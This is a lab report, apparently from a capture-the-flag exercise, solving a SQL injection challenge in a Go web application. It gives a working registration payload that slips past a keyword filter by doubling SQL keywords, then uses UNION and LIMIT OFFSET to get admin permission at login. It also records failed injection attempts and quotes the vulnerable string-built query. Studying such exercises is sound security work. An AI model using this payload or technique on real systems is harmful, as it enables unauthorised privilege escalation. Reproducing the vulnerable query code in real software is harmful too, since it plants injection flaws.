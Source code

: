 # SQL Injection Lab Report

## Final Solution

The solution is made up of 3 steps.

1. Register username A, which is

```
HeyMan' uunionnion selselectect * from (selselectect * from users where username = "TWL" uunionnion all selselectect * from users where username = "admin" limit 1 offset 1) uunionnion selselectect * from users where username = 'HeyMan
```

The SQL statement is

```sql
SELECT * FROM users WHERE username = 'HeyMan'
UNION
SELECT * FROM (
    SELECT * FROM users WHERE username = 'TWL'
    UNION ALL
    SELECT * FROM users WHERE username = 'admin'
    LIMIT 1 OFFSET 1
)
UNION
SELECT * FROM users WHERE username = 'HeyMan'
```

(`HeyMan` and `TWL` are chosen at will. I have to make sure username `HeyMan` and `TWL` do not exist in the db, otherwise I have to choose other ones)

2. Register username `TWL`

3. Login with username A. Now we succeed: 

<img src="images/injection_result.png" alt="Injection Result" width="500" height="auto">

## Solution Explaination

The goal is:

1. Successfully register a username A.

2. When logining in with A, the SQL query statement will return "admin".

Then we have to make the first SQL query at registration to return nothing, and the second SQL query at login to return "admin".

And with "LIMIT" keyword, we can reach it by:

1. return "admin" at the first query without limit filtering, and use "LIMIT 1 offset 1" to filter out "nothing".

2. return "TWL, admin" at the second query without limit filtering, and use "LIMIT 1 offset 1" to filter out "admin".

And we can perfectly achieve this effect by using the username A presented above, with the help of union.

### Some Key Points

1. Use "limit 1 offset 1" rather than "limit 1, 1" to avoid the comma.

2. Use one dummy select statement at the head and one at the tail to close the single quotation marks.

## Compilation

```
export GOPROXY=https://goproxy.cn,direct
go build -ldflags="-s -w" main.go
```

## Those Failed Attempts

### Formalization

Let's formalize the process:

For registration, input username A, password m0:
First check for duplicates using filtered(A)
If not duplicate, register by inserting (A, md5(m0), 0) into DB

For login, input username B, password m1:
Use prepared statement to find B, md5(m1) in DB, check if password matches
Then use the username (B) from DB to redirect to /dashboard
In dashboard, call checkPermission, which uses
filtered(B) to search in DB and return corresponding permission.

So, filter B's permission field in DB is 2

pswd(A) = m0

pswd(B) = m1

### Failed Attempts 0

Injection at registration seems useless unless I can inject into the database write statement, otherwise the permission won't be sufficient.
For example, I tried using username `admin OR 1=1` during registration, but it didn't work.

### Failed Attempts 1

For the login part, we need to pay special attention to the behavior of the `checkPermission` function:

```go
func checkPermission(username string) bool {

	// Filter is applied here again
	filteredUsername := simpleSQLFilter(username)

	log.Printf("[checkPermission] Filtered username: %s", filteredUsername)
	
	// SQL injection point
	query := fmt.Sprintf("SELECT * FROM users WHERE username = '%s'", filteredUsername)
	
	log.Printf("[checkPermission] Executing query: %s", query)
	
	var user User
	err := userdb.QueryRow(query).Scan(&user.ID, &user.Username, &user.Password, &user.Perm)
	if err != nil {
		log.Printf("[checkPermission] Permission query failed: %v", err)
		return false
	}
	
	// If permission is greater than 1, it's an admin
	return user.Perm > 1
}
```

Based on this, if we want the attack to succeed, there are only two cases:

a. The filtered username used for login is already registered as admin

b. It's not admin but the permission has been changed to 2

I tried case a. If we want the filtered username in checkPermission to be admin,
then its pre-filtered form is not admin but is registered, let's say it's A. But we can't register with A because
registration will filter A to get `admin` and check for duplicates, which will find the field already exists.
For example, I tried using username `admindrop` but it didn't work.

### Failed Attempts 2

I also tried directly injecting into the database write part. I found its format is:

```go
_, err = userdb.Exec("INSERT INTO users (username, password, perm) VALUES (?, ?, 0)", username, hashStr)
```

Therefore, I tried to inject the username as `A, md5(A), 2) ...` format.

I tried `AB', '5d41402abc4b2a76b9719d911017c592', 2) '` and  `AB', '5d41402abc4b2a76b9719d911017c592', 2) OR '`, but they didn't work. It's because before we executing the DB write statement, we have to execute a DB search, and it will failed.

And then I realized this statement can NOT be injected.